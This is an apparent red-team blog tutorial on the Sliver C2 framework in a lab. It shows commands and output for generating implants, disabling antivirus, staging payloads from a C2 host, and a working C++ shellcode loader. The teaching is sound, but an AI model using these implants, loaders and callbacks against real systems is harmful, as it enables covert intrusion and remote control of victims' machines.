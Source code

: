 ```yaml
---
authors:
- an00b
date: 2022-09-27 12:00:00
description: Command and control your friends (or your enemies) >:)
image: /static/frontmatter/sliver.jpg
tags:
- red-team
- command-and-control
- c2
- sliver
- golang
- bishop-fox
title: Writing a Beginner's Guide to Sliver Because the Devs Won't
---
```

<sup>Credit to [Aleksi Briclot](https://aleksi.artstation.com/projects/okV4) for the frontmatter art.</sup>

## Intro
My hands have definitely been a little full lately, but since I got a new laptop recently, I've finally been able to dig a little deeper into some of the red team things I've been meaning to for a while (read as: I can spawn Windows VMs easily). One of the things I've been meaning to figure out recently is my preferred command and control framework, [Sliver](https://github.com/BishopFox/sliver).

There are a bunch of things that I really like about it, including the frequent updates/developement, the amount of features, and the overall flexibility as everything is in Golang. The biggest issue I have with it is the rather limited documentation. The [beginner's guide](https://github.com/BishopFox/sliver/wiki/Beginner's-Guide) has been in TODO ~~since January~~ forever, and I still get very confused with how certain things like staging or pivoting work. I don't fully blame BishopFox for this; I'm also in the process of getting more comfortable with red team concepts in general, but I do think things could be slightly more descriptive.

This guide is meant to serve as a high-level overview of the basic features one would need to know to effectively use the Sliver C2 in a lab environment where OPSEC doesn't really matter. Before that, we'll briefly touch on what C2 actually is, and end up concluding with looking at it from the flip-side and how to detect this.



## Beginning Phase: What's a C2?
### Intro to C2
I first heard about "command and control infrastructure" from participating in Cyber 9/12, a cyber-policy event, where they never really explained it and I just thought it was some eldrich magick that made hacking possible. Turns out, it's a lot simpler than that.

The motivation for a **command and control framework** (aka C2 Framework) is simple. When an advesary attacks a large network of hundreds or possibly thousands of devices, it is simply infeasible to try and manage 10, 50, or more different shell sessions on compromised hosts. The idea behind C2 is to manage all of those different sessions and provide additional post-exploitation features to make the quality of life for a red teamer better. If you've ever used the [Metasploit Framework](https://github.com/rapid7/metasploit-framework), you've technically used a C2 before! It features custom payload generation, various listeners, session management, and additional post exploitation commands, but you probably don't need to use many of these things if you only use it to run quick exploits.

Here are some well known command and control frameworks (aside from Sliver):
- [Empire](https://github.com/BC-SECURITY/Empire) - A previously abandoned, open-source C2 brought back to life by BC-Security, heavily based around PowerShell
- [Mythic](https://github.com/its-a-feature/Mythic) - An open-source C2 framework heavily focused around collaboration, and allows for individuals to create their own implants in whatever language they choose
- [Cobalt Strike](https://www.cobaltstrike.com/) - A closed-source and infamous C2 framework developed by HelpSystems that is well-known for being a goto for real-world attackers (it's just that good)
- [Brute Ratel](https://bruteratel.com/) - A closed-source "C4" (it's just marketing) by Chetan Nayak or Paranoid Ninja which has strong networking features

You can read up more about various command and control frameworks in the [C2 Matrix](https://www.thec2matrix.com/), a website that catalogs all of the major C2s, open and closed source, out there right now.

### Components
Aside from the C2 server itself, there are two core components you'll see in almost any C2:
- **Listeners**. Like when you run `nc -lvnp 1337`, listeners are just applications running on the server that are waiting for a connection on a specific port or protocol. You'll likely hear about HTTP(S) and DNS the most
- **Implants/Agents/Payloads/[Cool_Name]**. They go by different names depending on the framework, but these are the actual programs that you run on a target computer to get the remote connection back on your C2 server. They can come in many different forms, such as binaries, shellcode, PowerShell commands, or quite frankly just any type of code execution, but getting these programs to run are the key to taking advantage of the C2.

Most frameworks will also have some kind of staging options, post-exploitation modules, multi-user capabilities, etc., but the core pieces are the two mentioned above. It seems very simple in concept, which it is. The complexity comes in the age old question of "How do you want to do this?". Depending on the situation, you'll likely end up asking yourself questions like:
- What type of payload should I use?
- Can I get away with X without raising too much suspicion?
- How do I bypass this AV/EDR product?
- How do I make sure I don't burn through all of my prepared evasion techniques?

And this is where a lot of the creativity and complexity in command and control design/usage comes in, which won't really be covered here. Our goal today is just to understand the basics (and maybe a little bit more), which should be applicable for any other C2.

## Installation
There's a few ways to go about this. Since 99% of the framework is in Golang, you can really run this on any operating system that there's a [release](https://github.com/BishopFox/sliver/releases) for, and all you need is the client binary and the server binary. As implied earlier, C2 is an example of client-server architecture, meaning we have a central server to handle our requests, and multiple clients interacting with that server.

An in-depth discussion of good red-team architecture is beyond the scope of this blog (but [HuskyHacks](https://notes.huskyhacks.dev/blog/red-team-infrastructure-done-right) has spoken on the subject matter many times), so if you're like me and just using it for personal use, there's really not much beyond this. If you are running the C2 on a Linux box, you can use the below one-liner to automatically set it up as a service.
```bash
curl https://sliver.sh/install|sudo bash
```

Also, if you don't already have Metasploit and the MinGW compiler installed, you should do that. This should be as easy as installing the `mingw-w64` package on Debian-based Linux or MacOS.

When using Sliver (or any C2 quite frankly), you'll need to run the server in the background, and use the client to connect to it. If you use the Linux one-liner, this will already be set up for you as a service, so use the appropriate `service` or `systemctl` command to start and stop it. 

<img src="https://an00brektn.github.io/img/sliver/thumb-1920-643584.jpg" style="width:60%;height:60%;"></img>
<sup>Credit to [Aleksi Briclot](https://www.artstation.com/aleksi)</sup>

## Pre-Combat Main Phase: Basic Usage
### Generating Implants
Throughout this blog, I will be using a local setup with my Kali VM and a Windows VM on the same network, Sliver being used and installed on the Kali VM.

Suppose, in this fictional scenario, I am attacking this network and am trying to get my first implant down on this Windows host that I already have command execution on. To start, we first need to generate an implant.

I'll connect to my server by running `sliver`.
```shell
kali@transistor:~/Documents/sliver-test$ sliver
Connecting to localhost:31337 ...

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain recover
[*] Server v1.5.27 - 11949202b581b843160801a232dc61e1afa39cc1
[*] Welcome to the sliver shell, please type 'help' for options

sliver > 
```

You can prepend `help` to any command to list further options, and I *highly* encourage you to read up on all of the different options here. However, for the sake of simplicity, we will generate the simplest of implants, which will use the HTTP protocol for a callback.

> **Note:** Sliver (1.5+) has two types of implants, beacons and sessions. Beacons will check in with your server every now and then to see if you've told them to do something, and then executes and returns the results. An implant in session mode is a real-time session that is more like a reverse shell.
> Implants compiled for session mode cannot switch to being beacons, but you can have beacons open up interactive sessions if need be.

```shell
sliver > generate beacon --http 10.10.69.24 --save .

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:01:05
[*] Implant saved to /home/kali/Documents/sliver-test/DIFFICULT_DYNAMO.exe
```

From here, I can run an SMB server on my local machine using impacket to transfer it to the remote Windows machine.
```shell
kali@transistor:~/Documents/sliver-test$ smbserver.py kali . -smb2support -username anon -password anon
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

And on the Windows machine...
```powershell
PS C:\Users\sreisz\Desktop\the-lab\sliver-test> net use \\10.10.69.24\kali /USER:anon anon
The command completed successfully.

PS C:\Users\sreisz\Desktop\the-lab\sliver-test> copy \\10.10.69.24\kali\DIFFICULT_DYNAMO.exe .
copy : Operation did not complete successfully because the file contains a virus or potentially unwanted software.
At line:1 char:1
+ copy \\10.10.69.24\kali\DIFFICULT_DYNAMO.exe .
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand
```

Yep. Sliver has only been getting popular by the day, and its signatures are in Microsoft Defender's database. An in-depth discussion of evasion techniques is outside the scope of this blog post, so we'll just disable antivirus for now and try again.

### Listeners
Once we've taken care of that, all we have to do is set up a listener on our client. In other C2 frameworks, such as [Covenant](https://github.com/cobbr/Covenant) and [Empire](https://github.com/BC-SECURITY/Empire), this is a little more involved, but here we can just run `http` in our shell to start it up. However, `http` is not the only listener, and it's not even the recommended one. Here's a brief description of what the other listeners are for.

- `http`/`https` - for communication over the HTTP(S) protocol, pretty standard across any C2
	- You can also use the `websites` command to stage a fake website on the listener port so it looks more legit if someone tries to look at your listener.
- `mtls` - communication using mutual-TLS, a protocol in which both the implant and the server present a certificate that the other must validate. If one certificate fails, the connection does not happen.
	- Note that Sliver does hardcode the TLS configuration so that's something to think about for OPSEC
- `wg` - communication using WireGuard, which essentially creates a lightweight VPN to communicate over. This is also a highly recommended option by the devs, but if you want to learn more about this, I think this [discussion](https://github.com/BishopFox/sliver/discussions/721) answers most questions
- `dns` - definitely one of the more finnicky options where you leverage a domain that you control to transmit data over. This is all UDP and I don't really recommend it for beginners.

Each of these have their own set of options and capabilities that the wiki/source code can explain much better than I ever could.

Since our beacon was only configured to have an `http` callback, we can run `http` in our shell and then execute the beacon on the remote Windows computer.
```shell
sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #1

[*] Beacon 32ca60f5 DIFFICULT_DYNAMO - 10.10.69.19:50006 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 00:33:36 EDT
```

![slifer](https://an00brektn.github.io/img/sliver/Slifer_the_Sky_Dragon.jpg)
<sup>Oh wait you said "Sliver"? Ah, wrong game, my bad.</sup>

## Combat Phase: Interacting with the Target
### Beacons
Now that we have a beacon on the target, what can we do with it? We can list the current beacons we have using the `beacons` command.

```shell
sliver > beacons 

 ID         Name               Tasks   Transport   Remote Address      Hostname          Username   Operating System   Locale   Last Check-In                            Next Check-In                         
========== ================== ======= =========== =================== ================= ========== ================== ======== ======================================== =======================================
 32ca60f5   DIFFICULT_DYNAMO   0/0     http(s)     10.10.69.19:50006   DESKTOP-1AGTDPB   sreisz     windows/amd64      en-US    Sun Sep 25 00:35:48 EDT 2022 (49s ago)   Sun Sep 25 00:36:56 EDT 2022 (in 19s) 
```

Recall that **beacons** are different from **sessions** in that they will periodically check in about every minute or so by default. From an OPSEC perspective, this is better because it doesn't look like a reverse shell, which is a continuous connection. I also say that a beacon checks in every minute *or so* because of **jitter**. Jitter is essentially making the check-ins more irregular, making it so that the beacon is not checking in at exactly every 60 seconds, because that would also be suspicious.

Tangent aside, we can interact with our beacon with the `use` command, followed by the ID of the beacon, which we can use the Tab key for auto fill.

```shell
sliver > use 32ca60f5-7004-4cad-a433-55e34aeaff04

[*] Active beacon DIFFICULT_DYNAMO (32ca60f5-7004-4cad-a433-55e34aeaff04)
```

The `help` command here shows us **a lot** of commands we can use. We're still not in an actual shell (and if we were on a real engagement we might not ever want to enter a full shell), so we don't have access to every Windows command under the sun, but there's a lot already out there for us to do.

We can start with the most basic command: `ls`.
```shell
sliver (DIFFICULT_DYNAMO) > ls

[*] Tasked beacon DIFFICULT_DYNAMO (db8b4d25)
```

You'll notice we did not get a response immediately. This is because any commands we send are actually **tasks** that are put into a queue, and recieved everytime the beacon checks in. Just wait about a minute, and we see:

```shell
[+] DIFFICULT_DYNAMO completed task f8d51379

C:\Users\sreisz\Desktop\the-lab\sliver-test (3 items, 15.4 MiB)
===============================================================
-rw-rw-rw-  DIFFICULT_DYNAMO.exe  15.4 MiB  Sat Sep 24 21:31:53 -0700 2022
-rw-rw-rw-  password.txt          16 B      Sat Sep 24 21:47:45 -0700 2022
-rw-rw-rw-  secret.txt            37 B      Sat Sep 24 21:48:09 -0700 2022
```

If you ever forget what the result of a task was, for documentation or you just don't want to execute another command, you can use `tasks` to list the things you've done so far, and then `tasks fetch <id>` to fetch the output of a specific task.

```shell
sliver (DIFFICULT_DYNAMO) > tasks

 ID         State       Message Type   Created                         Sent                            Completed                     
========== =========== ============== =============================== =============================== ===============================
 f8d51379   completed   Ls             Sun, 25 Sep 2022 00:48:15 EDT   Sun, 25 Sep 2022 00:49:10 EDT   Sun, 25 Sep 2022 00:49:10 EDT 
 db8b4d25   completed   Ls             Sun, 25 Sep 2022 00:45:48 EDT   Sun, 25 Sep 2022 00:46:50 EDT   Sun, 25 Sep 2022 00:46:50 EDT 

sliver (DIFFICULT_DYNAMO) > tasks fetch f8

+------------------------------------------------------+
| Beacon Task   | f8d51379-b01c-4f05-8f77-8a07fcea14e3 |
+---------------+--------------------------------------+
| State         | ✅ Completed                         |
| Description   | LsReq                                |
| Created       | Sun, 25 Sep 2022 00:48:15 EDT        |
| Sent          | Sun, 25 Sep 2022 00:49:10 EDT        |
| Completed     | Sun, 25 Sep 2022 00:49:10 EDT        |
| Request Size  | 18 B                                 |
| Response Size | 180 B                                |
+------------------------------------------------------+

C:\Users\sreisz\Desktop\the-lab\sliver-test (3 items, 15.4 MiB)
===============================================================
-rw-rw-rw-  DIFFICULT_DYNAMO.exe  15.4 MiB  Sat Sep 24 21:31:53 -0700 2022
-rw-rw-rw-  password.txt          16 B      Sat Sep 24 21:47:45 -0700 2022
-rw-rw-rw-  secret.txt            37 B      Sat Sep 24 21:48:09 -0700 2022
```

A lot of the commands in a beacon might be familiar if you've ever used Meterpreter, so I won't explain every single possible thing you can do. However, differing from Meterpreter, there are a lot more commands to help simplify some of the things you might need to do as a red teamer.

```shell
Sliver - Windows:
=================
  backdoor          Infect a remote file with a sliver shellcode
  dllhijack         Plant a DLL for a hijack scenario
  execute-assembly  Loads and executes a .NET assembly in a child process (Windows Only)
  getprivs          Get current privileges (Windows only)
  getsystem         Spawns a new sliver session as the NT AUTHORITY\SYSTEM user (Windows Only)
  impersonate       Impersonate a logged in user.
  make-token        Create a new Logon Session with the specified credentials
  migrate           Migrate into a remote process
  psexec            Start a sliver service on a remote target
  registry          Windows registry operations
  rev2self          Revert to self: lose stolen Windows token
  runas             Run a new process in the context of the designated user (Windows Only)
  spawndll          Load and execute a Reflective DLL in a remote process
```

### Sessions
To be able to use some of the commands that require a session, we can use `interactive` to enter session mode.

```shell
sliver (DIFFICULT_DYNAMO) > interactive

[*] Using beacons active C2 endpoint: https://10.10.69.24
[*] Tasked beacon DIFFICULT_DYNAMO (80902df5)

[*] Session 4791259a DIFFICULT_DYNAMO - 10.10.69.19:50057 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 00:59:52 EDT

sliver (DIFFICULT_DYNAMO) > use 4791259a-d94a-4aba-b2cb-c99c86543d2b

[*] Active session DIFFICULT_DYNAMO (4791259a-d94a-4aba-b2cb-c99c86543d2b)

sliver (DIFFICULT_DYNAMO) >  
```

You can't really see it here, but in the UI, the name of the implant is blue when it's in beacon mode, and red when it's in session mode. Not only do we now get quicker turnarounds on our tasks, because everything is happening immediately, but we can also use commands like `getsystem`, `portfwd`, or `shell` that require a constant connection. The big downside is that is the beacon process continuously shows up in Task Manager. Ideally, you rename the executable file to `svchost.exe` or `explorer.exe` or something less suspicious, but the problem still remains.

![Pasted%20image%2020220925003324.png](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220925003324.png)

Other than that, they're really not that much different than beacons. From a workflow perspective, you'll almost always default to beacons, then pull out the session if necessary. After all you can only go from beacon to session, not vice versa.

Speaking of which, we can also kill a session to make sure we clean up our steps.
```shell
sliver (DIFFICULT_DYNAMO) > sessions -K

[!] Lost session 4791259a DIFFICULT_DYNAMO - 10.10.69.19:50057 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 01:51:13 EDT
[*] Killed DIFFICULT_DYNAMO (4791259a-d94a-4aba-b2cb-c99c86543d2b)
```

The lowercase `-k` flag can be used to specify a specific session, I just wanted to get rid of any and all of them.

### Profiles
Once you get deep into the weeds of it, typing out entire generation commands can get quite cumbersome and tedious. To make it easier, you can save your favorite configurations to a profile. Suppose I have a regular setup I like using to generate my beacon shellcode. I can use the below command to save it for later

```shell
sliver (DIFFICULT_DYNAMO) > profiles new beacon --arch amd64 --os windows --mtls 10.10.10.10:443 -f shellcode --evasion --timeout 300 --seconds 5 --jitter 1 funny_bytes

[*] Saved new implant profile (beacon) funny_bytes
```

Then, to generate this beacon shellcode, I can run a `profiles generate`
```shell
sliver (DIFFICULT_DYNAMO) > profiles generate --save . funny_bytes

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:55
? Encode shellcode with shikata ga nai? Yes
[*] Encoding shellcode with shikata ga nai ... success!
[*] Implant saved to /home/kali/Documents/sliver-test/HUNGRY_RUNAWAY.bin
```

You can also generate session implants in the same way, just omit the `beacon` part. We can also view what profiles we have saved, and what implants we have generated.
```shell
sliver (DIFFICULT_DYNAMO) > profiles

 Profile Name   Implant Type   Platform        Command & Control            Debug   Format      Obfuscation   Limitations 
============== ============== =============== ============================ ======= =========== ============= =============
 funny_bytes    beacon         windows/amd64   [1] mtls://10.10.10.10:443   false   SHELLCODE   enabled                   

sliver (DIFFICULT_DYNAMO) > implants

 Name               Implant Type   OS/Arch             Format   Command & Control            Debug 
================== ============== =============== ============ ============================ =======
 DIFFICULT_DYNAMO   beacon         windows/amd64   EXECUTABLE   [1] https://10.10.69.24      false 
 HUNGRY_RUNAWAY     beacon         windows/amd64    SHELLCODE   [1] mtls://10.10.10.10:443   false 
 PRACTICAL_JELLY    session        windows/amd64   EXECUTABLE   [1] https://192.168.3.6      false 
```

If at any point you accidentally delete an implant or just need to get an implant back, the `regenerate` command will create a new one instantly. 

```shell
sliver (DIFFICULT_DYNAMO) > regenerate DIFFICULT_DYNAMO

[*] Implant binary saved to: /home/kali/Documents/sliver-test/DIFFICULT_DYNAMO.exe
```

<img src="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/07/golang-hacker.jpg" style="width:75%;height:75%;"></img>
<sup>Credit: [Unit 42](https://unit42.paloaltonetworks.com/the-gopher-in-the-room-analysis-of-golang-malware-in-the-wild/)</sup>

## Post-Combat Main Phase: Cool Things
Sliver has a lot to offer, and I'll cover more of these things in a part 2 to this post, but I thought I'd cover a few things that are not entirely Sliver specific.

### Staging
Sliver is written in Golang, a programming language that compiles statically by default. This is different from your typical C executable, which is usually linked to external libraries to import commands from. As such, you'll notice that Sliver's generated implants are very large by default. This is because of the use of Golang, which compiles statically, meaning that in addition to the program code, the entire standard library of functions (and any other imported libraries) will get baked into the compiled output. Such is the tradeoff for getting very easy cross-compilation.

```shell
kali@transistor:~/Documents/sliver-test$ ls -la
total 28856
drwxr-xr-x 2 kali kali     4096 Sep 25 01:47 .
drwxr-xr-x 9 kali kali     4096 Sep 22 20:35 ..
-rwx------ 1 kali kali 16140288 Sep 25 01:38 DIFFICULT_DYNAMO.exe
-rwx------ 1 kali kali 13394233 Sep 25 01:47 HUNGRY_RUNAWAY.bin
```

If you've ever used Metasploit, you should be familiar with the idea of a **staged** versus a **stageless** payload. A stageless payload is a single binary (or any payload) that contains all of the necessary data to connect back to you, and that's pretty much the end of the story. A staged payload, also commonly referred to as a "dropper", is a much smaller payload that, when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute. You may think that staged payloads are just strictly better than stageless payloads, and you're kind of right. But, certain situations call for different needs, and if you're interested in further reading about the topic, I recommend checking out [Spooky aka NaisuBanana's](https://blog.spookysec.net/stage-v-stageless-1/) blog about that (I totally don't have the same Jekyll theme as them).

Creating a staged payload, as shown in the docs, is a little confusing, so I'll walk through a different example slowly. Note that as of right now, the only stager format available is in shellcode, the other options they show you are just ways to use the shellcode, there are no oneliners like Covenant or Empire. With that out of the way, we start by creating a new profile for the implant we want to generate. 

> ~~After multiple hours of troubleshooting, I was unable to have the stage listener work with `https`, the more secure and responsible thing to be doing. Hopefully I remember to update this blog once I get a better answer as to how that works.~~
> **Update**: Turns out I actually stumbled onto a bug where the wrong `msfvenom` command was being run. You can see the [discussion](https://github.com/BishopFox/sliver/discussions/917) and the [patch](https://github.com/BishopFox/sliver/pull/918) for more information about what happened. <sub>if i was any faster that could have been a free pr smh</sub>

```shell
profiles new beacon --arch amd64 --os windows --mtls 10.10.69.24:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 funnier_bytes
```

Once we've created the profile, we start a listener for the initial callback. We specify the profile to tell the server that when you get a callback on this URL, the agent you should send a Sliver (i.e. agent) with the specified profile. We use the `--prepend-size` since we're going to be using the Metasploit/`msfvenom` stager, but if you write your own custom one, you shouldn't include that flag.
```shell
stage-listener --url http://10.10.69.24:8080 --profile funnier_bytes --prepend-size
```

We then start another listener to catch the stage 2 callback. 
```shell
mtls --lhost 10.10.69.24 --lport 443
```

And then we actually generate the stager with the correct parameters.
```shell
generate stager -r http --lhost 10.10.69.24 --lport 8080
```

> If you are having unexpected errors here like `rpc error: code = Unknown desc = exit status 2`, be sure to check the server logs first for troubleshooting. The current version of Sliver requires a fairly recent version of Metasploit, so versioning is something to consider.

We can see the size of this staged payload is remarkably smaller than the stageless binary.
```shell
kali@transistor:~/Documents/sliver-test$ ls -la
total 15796
drwxr-xr-x 2 kali kali     4096 Sep 28 00:13 .
drwxr-xr-x 9 kali kali     4096 Sep 22 20:35 ..
-rwx------ 1 kali kali      969 Sep 28 00:13 ALERT_FORUM
-rwx------ 1 kali kali 16140288 Sep 25 01:38 DIFFICULT_DYNAMO.exe
-rw-r--r-- 1 kali kali    20065 Sep 26 00:50 shellcrypt.py
```

Since I used shellcode, I'll place it into a simple C++ dropper. This is also a huge benefit of staged payloads, as they're much easier to work with when developing custom droppers and such. I'm using C++ because it's the language I first learned when doing malware development with [Sektor7](https://institute.sektor7.net/) (great courses by the way), but you're free to insert this into any programming language to your heart's content. I highly recommend checking out this repo by [chvancooten](https://github.com/chvancooten/maldev-for-dummies) for more info on developing your own loaders and droppers.

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// change this out for the shellcode you're using!
unsigned char payload[3] = {
	0x90, 0x90, 0xcc
};
unsigned int payload_len = sizeof(payload);

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// If VirtualProtect worked, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

We can compile this and also see the smaller binary size.
```shell
C:\Users\sreisz\Desktop\the-lab\sliver-test\staged>dir
 Volume in drive C has no label.
 Volume Serial Number is B6DD-3AE4

 Directory of C:\Users\sreisz\Desktop\the-lab\sliver-test\staged

09/26/2022  07:28 PM    <DIR>          .
09/26/2022  07:28 PM    <DIR>          ..
02/26/2020  10:04 PM               123 compile.bat
09/26/2022  07:32 PM             5,956 implant.cpp
09/26/2022  07:32 PM           129,024 implant.exe
09/26/2022  07:32 PM             4,188 implant.obj
				5 File(s)        140,228 bytes
				2 Dir(s)  34,745,667,584 bytes free 
```

Running the implant, we get a callback at our C2.
```shell
[*] Beacon 800878fa VOICELESS_SKULL - 10.10.69.19:49918 (DESKTOP-1AGTDPB) - windows/amd64 - Wed, 28 Sep 2022 00:16:36 EDT
```

We can see exactly what this looked like on the network using Wireshark. One of the first packets we should see is an HTTP request to some random looking URL, but probably has a `.woff` extension in it.
![asdf](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220927231922.png)

The binary data inside this request is actually the stage 2 payload right there in plain sight! Since our request was done using HTTP instead of HTTPS, anyone eavesdropping or logging this could also probably see this request happening. However, they won't be able to tell what communication is happening. After scrolling past a lot of repeated ACK packets, we see some TLS packets.

![asdf](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220927232358.png)

As we have set up an MTLS listener, where both the client and server must verify each others' certificates, we have a cryptographic exchange where we do all of this verification, and if successful, all sequential packets will be encrypted and unreadable for anyone without the keys.

If you haven't already noticed, Sliver uses Metasploit to actually generate and handle the staged payloads. With this, we can not only just use Metasploit directly to create staged payloads, but we can also make custom droppers too, as noted in the [wiki](https://github.com/BishopFox/sliver/wiki/Stagers#custom-stagers), which gives us even more flexibility with how we approach payload design. Here, it's actually very important considering Metasploit is a tool that's been fingerprinted for who knows how long, and any usable AV/EDR will catch Metasploit shellcode fairly quickly. 

### Armory
Introduced in Sliver v1.5, the **armory** is Sliver's Alias and Extension package manager which allows you to install tools that other people outside of the core Sliver devs have made. We can see all of the different public packages available just by typing `armory`.

```shell
sliver > armory

[*] Fetching 1 armory index(es) ... done!
[*] Fetching package information ... done!
[...trim...]
```

Obviously, each package plays differently, but we can play around with one of the aliases like `sharpsecdump` as a demo. We can use `armory install <name>` to install a specific alias or extension.

```shell
sliver > armory install seatbelt

[*] Installing alias 'Seatbelt' (v0.0.3) ... done!
```

Once we've installed the alias, we can check the help information from an active session.
```shell
sliver (DIFFICULT_DYNAMO) > seatbelt -h
⚠️  If youre having issues passing arguments to the alias please read:
https://github.com/BishopFox/sliver/wiki/Aliases-&-Extensions#aliases-command-parsing

Usage:
======
  seatbelt [flags] [arguments...]

Args:
=====
  arguments  string list    arguments (default: [])

Flags:
======
  -M, --amsi-bypass                 Bypass AMSI on Windows (only supported when used with --in-process)
  -d, --app-domain        string    AppDomain name to create for .NET assembly. Generated randomly if not set.
  -a, --arch              string    Assembly target architecture: x86, x64, x84 (x86+x64) (default: x84)
  -c, --class             string    Optional class name (required for .NET DLL)
  -E, --etw-bypass                  Bypass ETW on Windows (only supported when used with --in-process)
  -h, --help                        display help
  -i, --in-process                  Run in the current sliver process
  -m, --method            string    Optional method (a method is required for a .NET DLL)
  -P, --ppid              uint      parent process ID to use when creating the hosting process (Windows only) (default: 0)
  -p, --process           string    Path to process to host the shared object
  -A, --process-arguments string    arguments to pass to the hosting process
  -r, --runtime           string    Runtime to use for running the assembly (only supported when used with --in-process)
  -s, --save                        Save output to disk
  -t, --timeout           int       command timeout in seconds (default: 60)
```

That warning is a pretty useful read, and I recommend checking it out. When using an alias, pass the Sliver-specific flags first, then use a `--`, and then proceed to submit any other flags specific to the alias.

```shell
sliver (DIFFICULT_DYNAMO) > seatbelt -group=system
error: invalid flag: -group
sliver (DIFFICULT_DYNAMO) > seatbelt -i -- -group=system

[*] seatbelt output:

Seatbelt v1.1.1

====== AMSIProviders ======

  GUID                           : {2781761E-28E0-4109-99FE-B9D127C57AFE}
  ProviderPath                   : "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2207.7-0\MpOav.dll"

====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe
[...trim...]
```

An alias, like `seatbelt`, is just an abstraction for using `sideload` or `execute-assembly` to run a program inside the current process, as opposed to spawning a new child process. Extensions are a little more complicated, as they are shared libraries that get loaded into the Sliver implant, and possibly have additional dependencies.

### BOF: Beacon Object Files
The term "**Beacon Object File**" (BOF) originated from a feature in the well-known [Cobalt Strike](https://www.cobaltstrike.com/) command and control framework. Quote TrustedSec:

> "BOFs allow users to execute code without following Cobalt Strike’s well-defined patterns. Typically, Cobalt Strike will always perform cross-process injection or start cmd.exe / powershell.exe to accomplish its more useful goals [...] When a technique is coded using a BOF, you gain the benefit of running code inside of beacon itself and without starting a child process. You also do not have the Indicators of Compromise (IoCs) associated with execute-assembly where you would start your spawn-to process and inject code into it." [Original Blog](https://www.trustedsec.com/blog/a-developers-introduction-to-beacon-object-files/)

